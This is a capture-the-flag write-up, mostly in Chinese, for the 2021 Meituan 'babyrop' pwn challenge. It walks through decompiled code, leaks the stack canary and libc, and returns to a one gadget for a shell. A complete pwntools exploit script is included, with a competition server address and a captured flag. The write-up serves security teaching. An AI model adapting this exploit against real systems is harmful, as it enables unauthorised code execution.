 # 第四届2021美团网络安全高校挑战赛 2021 pwn **babyrop**

> challenge name: `babyrop`
>
> file: `babyrop`, `libc-2.27.so`
>
> writeup writer: hexhex16@outlook.com    https://github.com/kokifish
>
> thanks liwl yuxc

也许可以归类为ret2text，因为核心操作是覆盖canary后，控制rbp的值和返回地址，使得跳到一个依据rbp值来输出字符串的地方，从而泄露libc。然后会再次执行到vuln时，返回到one gadget.

1. main输入name时溢出1B，泄露canary
2. vuln中控制rbp，返回到main中依据rbp调用`printf("%s", name)`处，泄露libc
3. 再次进入vuln，return to one gadget

题目给了libc，则一开始就可以猜测会用one gadget。

解法很简单，但是发现仅通过rbp就可以泄露libc的汇编位置比较困难，适合作为一道拓宽思考方向的简单ROP题。



# IDA Analysis

函数名保留了，可以直接看到有个vuln函数，这里明显存在一个栈溢出，但是栈溢出只能刚好覆盖完canary, rbp, ReturnAddress

```c
unsigned __int64 vuln()
{
  char buf[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]
  v2 = __readfsqword(0x28u);
  read(0, buf, 0x30uLL);                        // stack overflow
  return __readfsqword(0x28u) ^ v2;
}
```

vuln的栈空间，从高地址往低地址：

```assembly
return address # buf最多可以覆盖到返回地址RA这
rbp
canary     # 如果想要覆盖后面的rbp，RA，需要覆盖正确的canary，否则 call ___stack_chk_fail 
buf[0x18]  # 用户可以输入的地方，低地址
```

main函数中有个24B的buffer用于存储用户输入的name，但是在输入时实际可以输入25B，刚好会把canary最低的1B(`0x00`)给覆盖掉，后续在`printf("... %s, ...", name)`的时候就会把canary输出出来，故可以在此泄露canary。后面输入的整数如果与`"password"`字符串的地址相等则会调用`vuln`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+0h] [rbp-30h]
  char *password_addr; // [rsp+8h] [rbp-28h] BYREF
  char name[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("What your name? ");
  for ( i = 0; i <= 24; ++i )                   // 多输入1B 可以泄露canary
  {
    if ( (unsigned int)read(0, &name[i], 1uLL) != 1 || name[i] == '\n' )
    {
      name[i] = 0;
      break;
    }
  }
  printf("Hello, %s, welcome to this challenge!\n", name); // 利用这一句来泄露libc
  puts("Please input the passwd to unlock this challenge");
  __isoc99_scanf("%lld", &password_addr);
  if ( password_addr == "password" )            // bss addr
  {
    puts("OK!\nNow, you can input your message");
    vuln();
    puts("we will reply soon");
  }
  return 0;
}
```

> 一次程序运行中，所有的canary的值相同。



# How to Exp

栈溢出的空间非常有限，仅仅能控制canary，rbp，return addr。main中输出name的汇编如下，可以看到这里会使用rbp来确定`%s`输出的地址，故几乎可以输出任何地址上的内容（以%s的形式）

```assembly
.text:0000000000400818        lea     rax, [rbp+name] ; name = byte ptr -20h
.text:000000000040081C        mov     rsi, rax
.text:000000000040081F        lea     rdi, format   ; "Hello, %s, welcome to this challenge!\n"
.text:0000000000400826        mov     eax, 0
.text:000000000040082B        call    _printf
```

输出完之后会再次执行`vuln`，覆盖RA为one gadget即可getshell



# Exploit

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "123.57.131.167"
PORT = 22636
DEBUG = 1
elf = ELF("./babyrop")

if DEBUG:
    p = process("./babyrop")  # , env={"LD_PRELOAD": "./libc-2.27.so"}
    # p = process("./babyrop")
    libc = ELF("./libc-2.27.so")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[0].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:  # flag{c53a3433-c33d-4577-a6ee-37d0d69fc310}
    p = remote(IP, PORT)
    libc = ELF("./libc-2.27.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        cmd += "b *%d\n" % (0x400744)  # 4007C8
        cmd += "b *%d\n" % (0x40082B)
        cmd += "b *%d\n" % (0x40084F)
        cmd += "set $a=%d\n" % (0x601010)  # arrPtr
        debug(cmd)


# === Step-1: stack overflow 1B, leak canary
name = "myname".ljust(25, "0")
sa("name? \n", name)
data = ru(name)
canary = u64(b"\x00" + ru(",")[:7])
print("==> ", hex(canary))
sla("unlock this challenge\n", "4196782")  # input password addr
# 0x601020 : addr of stdin in bss    # .bss:601020 stdin@@GLIBC_2_2_5

# === Step-2: hijack rbp, return addr
print("stdin:", hex(libc.sym['_IO_2_1_stdin_']))  # end with 0x00
payload = b'a'.ljust(0x18, b'a') + p64(canary) + p64(0x601020 + 0x20 + 1) + p64(0x400818)  #
sa("you can input your message\n", payload)

leak_addr = u64((b"\x00" + p.recvuntil("\x7f")[-5:]).ljust(8, b"\x00"))
libc.address = leak_addr - libc.sym['_IO_2_1_stdin_']
print("==> leak_addr", hex(leak_addr), "stdin:", hex(libc.sym['_IO_2_1_stdin_']))
print("==> libc.address", hex(libc.address))

sla("unlock this challenge\n", "4196782")  # input password addr

# === Step-3: return to one gadget
one_gadget = libc.address + 0x4f3d5
payload = b'a'.ljust(0x18, b'a') + p64(canary) + p64(0xdeadbeef) + p64(one_gadget)
sa("you can input your message\n", payload)
dd()
p.interactive()

```

payload解释：

```python
payload = b'a'.ljust(0x18, b'a') + p64(canary) + p64(0x601020 + 0x20 + 1) + p64(0x400818)
```

- 0x601020: bss上stdin的地址
- 0x20: `.text:0000000000400818` 上是用`rbp-0x20`的方式获得，为了最后得到的是stdin的地址，需要提前+0x20
- 1: 由于这个libc的`_IO_2_1_stdin_`最低1B刚好是0x00，输出时会被截断，所以+1，跳过最低1B的0x00
